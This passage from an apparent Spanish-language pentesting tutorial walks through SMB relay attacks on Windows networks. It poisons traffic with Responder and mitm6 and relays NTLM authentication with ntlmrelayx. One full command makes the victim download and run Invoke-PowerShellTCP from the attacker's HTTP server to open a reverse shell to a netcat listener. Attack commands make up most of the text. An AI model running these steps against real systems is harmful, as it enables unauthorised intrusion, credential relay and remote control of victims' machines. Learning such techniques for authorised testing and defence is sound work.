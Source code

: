 ```
<br><br>

<b>Paso 2:</b> Lanzamos herramienta ntlmrelayx donde incluimos el archivo con el host de la victima y damos soporte smb<br>
```ntlmrelayx -tf targets.txt -smb2support ```<br><br>



### Obtener Shell:
Haciendo uso de NtlmRelayx, podemos ejecutar comandos. Con esto, podemos descargar desde el equipo víctima un archivo malicioso que se encuentra en el atacante y que,al ejecutarse, nos de una reverse shell. A continuación, se muestra el archivo malicioso, el cual configuramos con los parámetros del atacante:<br>
<b>Invoke-PowerShellTCP.ps1 </b><br>
Editamos el archivo y añadimos al final nuestra reverse shell:<br>
```Invoke-PowerShellTCP -Reverse -IPAdress [NuestraIP] -Port [NuestroPuerto] ```<br>

<b>Paso 1:</b> En la ruta donde se encuentra el archivo <i>Invoke-PowerShellTCP.ps1</i>, compartimos el servidor HTTP con Python <br>
```python3 -m http.server 8000 ```<br><br>

<b>Paso 2:</b> Nos ponemos a la escucha para recibir la reverse shell:<br>
```rlwrap nc -nvlp 4646 ```<br><br>

<b>Paso 3:</b> Lanzamos el responder <br>
```responder -I eth0 -dw ```<br><br>

<b>Paso 4:</b> Lanzamos el NtlmRelayx con el comando. Se conectará al recurso compartido por http para descargar el archivo Invoke: </br>
```
ntlmrelayx -tf targets.txt -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.1.5:8000/Invoke-PowerShellTCP.ps1')"
```
<br><br>

Resumen: Usamos el archivo Invoke-PowerShell.ps1 que ejecuta comandos. Este archivo tiene 
unos parámetros con la IP del atacante para obtener una conexión reversa. Compartimos este 
archivo a través de un servidor HTTP. Nos ponemos a la escucha con NetCat, donde llegara la 
conexión reversa. Lanzamos el responder para envenenar el tráfico. Lanzamos el NtlmRelayx con 
ejecución de un comando. Este comando da la orden de descarga el archivo que esta compartido 
en el servidor HTTP. Se descarga, lo ejecuta junto con la orden de la conexión reversa. Se recibe 
la conexión al sistema por NC. <br><br>


## Ataque SambaRelay IPv6 

Este ataque requiere ser replegado todo el tiempo y en escucha. <br>
Por defecto, las máquinas Windows solicitan tráfico IPv6. Si funciona, crea una sesión 
interactiva. Este ataque envenena el dominio y, con NTLRelayx, junto con ProxyChains, se puede 
crear un túnel y lograr ingresar un comando sin conocer la contraseña del usuario. <br><br>

<b>Paso 1:</b> Se envenena el tráfico y las víctimas toman como puerta de enlace predeterminada y 
servidor DNS primario nuestra dirección IPv6. Muestra nuestra dirección IPv4 e IPv6.<br>
```mitm6 -d dominio.local ```<br><br>

<b>Paso 2:</b> De los equipos que han sido envenenados, lazamos el NtlmRelayx contra uno de ellos 
por IPv6. Wh: atacante; t: target; socks: crea conexión sock (para proxychains) <br>

```ntlmrelayx.py -6 -wh [IPatacante] -t smb://[IPvictima] -socks -debug -smb2support ```<br><br>

<b>Paso 3:</b> Con el listado, ahora podemos ver si existe algún usuario administrador en TRUE (AdminStatus) <br>
```socks``` <br><br>

### Uso de proxychains
```